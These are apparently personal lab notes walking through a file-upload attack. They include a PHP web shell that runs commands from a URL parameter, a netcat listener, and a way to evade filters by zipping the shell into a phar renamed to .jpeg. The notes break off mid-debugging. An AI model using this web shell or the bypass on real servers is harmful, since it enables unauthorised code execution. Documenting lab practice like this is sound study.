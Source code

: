```
<?php
system($_GET['cmd']);
<KALI IP ADDRESS>
?
```

And this upload isn't allowed.

Try to rename this script and give it a .txt file extension and the code is just echoed to the web page. 

Set up nc listener with -k flag also so that web app can connect multiple times. 

```
sudo nc -lvnkp 80
```

![[Pasted image 20250422202454.png]]
![[Pasted image 20250423212719.png]]

#pharwrapper - which is like a zip file in php

We're going to give this php code a phar wrapper.

Name the file test.php again

```
zip test.phar test.php
```
- Inside of test.phar file is test.txt

Rename test.phar test.jpeg in case .phar is blacklisted

```
mv test.phar test.jpeg
```

Upload test.jpeg with the nc listener running to prevent the file from getting cleaned up

```
sudo nc -lvnkp 80
```


Test.jpeg upload

![[Pasted image 20250423214642.png]]

Here is test.jpeg when you click on it 

![[Pasted image 20250423214722.png]]

So we want to include this with our Burp request 

![[Pasted image 20250423214914.png]]
- got 500 internal server error - this means there may be an error in the php code

Simplifying test.php payload by removing the system command and replacing it with an echo command 
